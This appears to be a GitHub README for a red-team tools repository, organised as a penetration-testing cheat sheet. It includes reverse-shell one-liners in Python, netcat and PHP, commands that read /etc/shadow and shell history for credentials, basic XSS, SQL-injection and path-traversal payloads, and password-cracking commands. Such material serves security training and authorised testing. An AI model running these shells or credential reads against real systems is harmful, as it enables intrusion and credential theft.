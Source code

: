 # 🛠️ Red team tools, tips & tricks

A collection of random custom scripts for penetration testing and red team tasks.

## 📌 Includes

* 🔁 Automation scripts
* 🔍 Reconnaissance tools
* 📡 Scanning utilities
* 💥 Exploitation scripts
* 🩻 Post-exploitation helpers
* 📄 Report generation tools
* 🗒️ Notes & cheat sheets



## 📚 Table of Contents

* [Tips-tricks](#-tips--tricks)
* [Recon & Enumeration](#-recon--enumeration)
* [Exploitation](#-exploitation)
* [Post-Exploitation](#-post-exploitation)
* [Privilege Escalation](#-privilege-escalation)
* [Web Attacks](#-web-attacks)
* [Password Attacks](#-password-attacks)
* [Tools Reference](#-tools-reference)
* [General Notes](#-general-notes)

-----

📂 Repo-Structure
```
red-team-tools/
├── automation/
├── recon/
├── scanning/
├── exploitation/
├── post-exploitation/
├── reporting/
├── utilities/
└── README.md/
```

---

## 🌟 Tips & tricks



***Find your public IP address right on the terminal***
```
curl -s wtfismyip.com/json | jq
curl ifconfig.me
```

***Automatically install essential hacking & dev tools on a fresh linux install***

\- [Install tools script](https://github.com/80h3m14n/red-team-tools/blob/main/automation/install-tools.sh)


***Encrypting and decrypting files, directories, and text using multiple encryption algorithms***

\- [Encryptz](https://github.com/80h3m14n/encryptz)



***Change Microsoft windows themes & font type***

1. Reg file(run as admin and reboot)
\- [Segoe Print Font](https://github.com/80h3m14n/red-team-tools/blob/main/utilities/segoe-print-font.reg)


\- You can open the file with notepad and change the font according to your preference.


2. Green Powershell
```
$Host.UI.RawUI.ForegroundColor = 'Green'
```


3. Command Prompt color

\- Navigate to Environmental Variables > New User variable
```
Name: prompt
Value: $E[1;30;104m►$E[1;37;104m $P $E[1;94;40m►$E[0m
```


---

## 🔍 Recon & Enumeration

```bash
# DNS Lookup
dig domain.com any +short
host domain.com

# Subdomain fuzzing
ffuf -w subs.txt -u https://FUZZ.target.com

# Nmap full scan
nmap -p- -T4 -A -v target.com
```

---

## 💥 Exploitation

```bash
# Python reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# Netcat reverse shell
nc -e /bin/sh IP PORT

# PHP reverse shell
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🩻 Post-Exploitation

```bash
# Grab users & creds
cat /etc/passwd
cat /etc/shadow
history

# Network info
ip a
netstat -tulpn

# SUID Binaries
find / -perm -4000 -type f 2>/dev/null
```

---

## 🧱 Privilege Escalation

```bash
# Check kernel for exploits
uname -a
linux-exploit-suggester.sh

# Check sudo rights
sudo -l

# Writable files/directories
find / -writable -type f 2>/dev/null
```

---

## 💬 Web Attacks

```bash
# XSS payload
<script>alert('xss')</script>

# SQL Injection test
' OR '1'='1

# Local File Inclusion
../../../../etc/passwd
```

---

## 🔐 Password Attacks

```bash
# Hashcat basic usage
hashcat -m 0 hash.txt rockyou.txt

# John the Ripper
john --wordlist=rockyou.txt hashes.txt

# Zip password crack
fcrackzip -v -u -D -p rockyou.txt file.zip
```

---

## 🧰 Tools Reference

```bash
# Gobuster
gobuster dir -u http://target.com -w wordlist.txt

# Nikto
nikto -h http://target.com

# Burp Suite
# Set proxy to 127.0.0.1:8080 and route traffic from tools
```




## 📝 General Notes
Check for .bak, .old, .zip files on webservers

Default creds go a long way

Look for dev/test/staging endpoints

Don’t sleep on SSRF, IDOR, or misconfigured cloud buckets

Always verify shell stability (TTY, backgrounding)

Additional resources
\- [Roadmaps](https://roadmap.sh/)

---

## 🧾 License

Free to use, share, and modify under the MIT License.


---

## ⚠️ Disclaimer

This repository is strictly for **educational and research** purposes.
I take **no responsibility** for misuse, illegal activity, or any damage caused by these tools.
**Use responsibly. Don't be dumb.**

